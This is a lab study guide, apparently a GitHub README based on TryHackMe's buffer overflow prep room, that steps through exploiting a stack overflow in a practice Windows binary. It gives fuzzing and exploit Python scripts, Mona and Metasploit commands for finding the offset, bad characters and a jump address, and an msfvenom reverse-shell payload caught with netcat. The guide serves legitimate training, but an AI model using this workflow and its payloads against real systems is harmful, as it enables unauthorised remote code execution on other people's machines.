 # Process for Buffer Overflow
(Original source for this awesome tutorial: **Tib3rius** https://tryhackme.com/room/bufferoverflowprep )

## Summary of the process

- Crash The Application 
	1. fuzz.py (with while loop and without while loop)
	2. fuzz-http.py
- Find EIP 
	1. msf-pattern_create -l xxxx  
	2. msf-pattern_offset -l xxxx -q (xxxxxxxx)
	3. Mona commands
		- !mona config -set workingfolder c:\mona\%p
		- !mona findmsp -distance xxxx
		- !mona modules
- Controlling EIP
	1. return address - BBBB
	2. control-eip.py
- Identify Bad Characters
	1. for exploit.py -> bytearray.sh '\x00'
	2. Mona commands
		- !mona bytearray -b "\x00"
		- !mona compare -f C:\mona\oscp\bytearray.bin -a
- Find JMP ESP - msf-nasm_shell 
	1. nasm > jmp esp - FFE4 
		- !mona find -s "\xff\xe4" -m "modulename"
	3. nasm > jmp eax - FFE0 
		- !mona find -s "\xff\xe0" -m "modulename"
	5. nasm > jmp edx - FFE2 
		- !mona find -s "\xff\xe2" -m "modulename"
- Generate Shell Code
	- msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -b "\x00\x0a" -f py
- Exploit
	- final-exploit.py

### connecting to process 
```nc -nv MACHINE_IP 1337```

### setting mona working folder
`!mona config -set workingfolder c:\mona\%p`


### Fuzzing 

`python2 fuzzer.py`
```
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

### Crash Replication & Controlling EIP

`python2 exploit.py`

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```


### offset

`msf-pattern_create -l 600`

Copy the output and place it into the payload variable of the exploit.py script.

`python exploit.py`

After crach use following command

`!mona findmsp -distance 600`

Mona should display a `log window` with the output of the command/

In this output you should see a line which states:

`EIP contains normal pattern : ... (offset XXXX)`

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the `retn variable to "BBBB"`.

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).


### Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

```!mona bytearray -b "\x00"```

`you can use the following python code as well`
```
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
Update your exploit.py script and set the payload variable to the string of bad chars the script generates.


```!mona compare -f C:\mona\oscp\bytearray.bin -a <address>```

A popup window should appear labelled "mona Memory comparison results". Generate a new bytearray in mona, specifying these new badchars along with \x00.

Example as below
```!mona bytearray -b "\x00\x07\xa0"```


### Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with **all the badchars** you identified (including \x00):

```!mona jmp -r esp -cpb "\x00"```

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.


### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with **all the badchars** you identified (including \x00):

```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py -v payload```

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

**remove the preceding "b" in the var**

### Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```padding = "\x90" * 16```

### Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!
